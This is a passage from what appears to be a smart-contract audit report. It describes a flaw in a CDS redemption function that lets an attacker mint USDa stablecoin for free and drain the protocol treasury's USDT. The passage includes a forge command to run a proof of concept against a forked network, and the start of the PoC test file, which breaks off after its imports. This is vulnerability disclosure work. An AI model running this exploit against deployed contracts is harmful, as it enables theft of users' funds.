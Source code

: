 As it can be seen, the above function checks whether the usda amount is greater than zero, and whether the user has required amount of usda in their balance. If so, it transfers the equivalent amount specified by params (again, completely decided by the caller), to the user. The only thing the attacker has to pay in this whole transaction is gas, and native fee for globalVariables.send call that’s being called in `CDS::redemUSDT`.

Refer to the POC for successful execution.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

User can mint usda for free and drain the usdt amount in treasury, stealing pretty much anything from the protocol.

### PoC

Create a new MyTest.t.sol file in test/foundry folder, paste the following inside and run `forge test --match-contract MyTest --fork-url https://1rpc.io/mode -vv`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

import {Test, StdUtils, console} from "forge-std/Test.sol";
import {BorrowingTest} from "../../contracts/TestContracts/CopyBorrowing.sol";
import {Treasury} from "../../contracts/Core_logic/Treasury.sol";
import {Options} from "../../contracts/Core_logic/Options.sol";
import {MultiSign} from "../../contracts/Core_logic/multiSign.sol";
import {CDSTest} from "../../contracts/TestContracts/CopyCDS.sol";
import {TestUSDaStablecoin} from "../../contracts/TestContracts/CopyUSDa.sol";
import {TestABONDToken} from "../../contracts/TestContracts/Copy_Abond_Token.sol";
import {TestUSDT} from "../../contracts/TestContracts/CopyUsdt.sol";
import {HelperConfig} from "../../scripts/script/HelperConfig.s.sol";
import {DeployBorrowing} from "../../scripts/script/DeployBorrowing.s.sol";
import {State} from "../../contracts/interface/IAbond.sol";
import {IBorrowing} from "../../contracts/interface/IBorrowing.sol";
import {CDSInterface} from "../../contracts/interface/CDSInterface.sol";
import {ITreasury} from "../../contracts/interface/ITreasury.sol";
import {IOptions} from "../../contracts/interface/IOptions.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {MessagingFee} from "@layerzerolabs/lz-evm-oapp-v2/contracts/oapp/OApp.sol";
import {OptionsBuilder} from "@layerzerolabs/lz-evm-oapp-v2/contracts/oapp/libs/OptionsBuilder.sol";
import {IGlobalVariables} from "../../contracts/interface/IGlobalVariables.sol";
import {IWrsETH} from "../../contracts/interface/IWrsETH.sol";
import {BorrowLib} from "../../contracts/lib/BorrowLib.sol";
import {IUSDa} from "../../contracts/interface/IUSDa.sol";
import {CDSLib} from "../../contracts/lib/CDSLib.sol";

contract MyTest is Test {
    DeployBorrowing deployer;
    DeployBorrowing.Contracts contractsA;
    DeployBorrowing.Contracts contractsB;

    address borrowLibrary;
```